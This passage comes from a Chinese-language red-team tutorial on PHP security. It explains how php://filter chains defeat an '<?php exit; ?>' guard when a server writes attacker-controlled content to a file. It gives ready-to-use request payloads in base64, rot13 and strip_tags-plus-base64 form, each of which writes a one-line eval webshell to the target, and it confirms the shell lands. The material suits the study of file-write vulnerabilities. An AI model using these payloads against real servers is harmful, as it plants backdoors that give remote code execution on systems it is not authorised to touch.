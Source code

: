 因此，对于 exit 中的代码，字符 <、?、;、>、空格等字符不符合 base64 解码范围。最终解码符合要求的只有 phpexit 这 7 个字符，而 base64 在解码的时候，是 4 个字节一组，因此还少一个，所以我们将这一个手动添加上去。

传payload如下：
```
?filename=php://filter/convert.base64-decode/resource=1.php

POSTDATA: content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

content中第一个字符a就是我们添加的

这个时候我们查看1.php的内容如下：

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/伪协议/2.png)

可以看到一句话木马已经成功写入了。

### rot13编码绕过

除了使用 base64 编码绕过，我们还可以使用 rot13 编码绕过。相比 base64 编码，rot13 的绕过 exit 更加方便，因为不用考虑前面添加的内容是否可以用 base64 解码，也不需要计算可 base64 解码的字符数量。

传payload：
```
?filename=php://filter/string.rot13/resource=2.php

POSTDATA: content=<?cuc riny($_CBFG[1]);?>
```
打开1.php文件：

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/伪协议/3.png)

### 多种过滤器绕过

再仔细观察 exit 的代码：
```php
<?php exit; ?>
```
可以看到 exit 的代码其实本质上是 XML 标签，因此我们可以使用 strip_tags 函数除去该 XML 标签

并且，filter 协议允许我们使用多种过滤器，所以我们还是针对上面的实例代码：
```
?filename=php://filter/string.strip_tags|convert.base64-decode/resource=3.php

POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```
